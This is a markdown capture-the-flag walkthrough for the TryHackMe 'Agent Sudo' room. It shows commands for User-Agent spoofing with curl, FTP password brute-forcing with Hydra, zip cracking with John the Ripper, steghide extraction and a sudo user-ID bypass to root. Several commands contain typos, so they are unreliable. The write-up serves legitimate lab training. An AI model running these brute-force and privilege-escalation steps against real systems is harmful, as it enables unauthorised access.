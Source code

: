 ```yaml
---
layout: page
title: agentSudo
permalink: /agentSudo
---
```

# ![front](/images/agentsudo/front.png)
[https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

## Open Ports:
  - 21: ftp
  - 22: ssh
  - 80: HTTP
  
## Port 80:
1. **Index Page**
![1](/images/agentsudo/1.png)
  - we can brute force different Agents
  ```
    >Curl "http://ip" -H "User-Agent: A" -L
    >Curl "http://ip" -H "User-Agent: B" -L
    >Curl "http://ip" -H "User-Agent: C" -L
  ```
![2](/images/agentsudo/2.png)

## Port 21:
1. Brute force ftp using **Hydra**  to find the _password_
  ```
  hydra -l cxxxx -P /rockyou.txt ftp://ip
  ```
![3](/images/agentsudo/3.png)
2. After logging we will find 3 files _(1 txt, 2 imgs)_
  - binwalk the image we find a zip file inside the image
  - As the zip file is password protected we can use **johnTheRipper** to crack it.
    ```
    John2zip 8072.zip > hash.txt
    John hash.txt --wordlist=/rockyou.tx
    ```
![4](/images/agentsudo/4.png)
 3. Now we find a text file for Agent R
  - It has the passwd in base64
    ```
    echo " " |base64-d (Area51)
    ```
 4. Extracting cute-alien.jpeg file using the password found in **To_AgentR.txt**
    ```
    steghide extract -sf cute-alien.jpeg
    ```
![5](/images/agentsudo/5.png)

   
## Gaining Access:
 **We Found username and password in _message.txt_**
 1. Logging in via ssh
 
### USER Flag:
![user](/images/agentsudo/user.png)
2.Download the image 
  - scp james@ip:/home/james/image.jpeg .
  - Now search in the web (_use google image search_)
 


## Privilege Escalation:
 1. sudo -l
   - [All,!root] /bin/bash
   **To bypass this**
    ```
    sudo #u-1 /bin/bash
    ```
### Root Flag:
![root](/images/agentsudo/root.png)
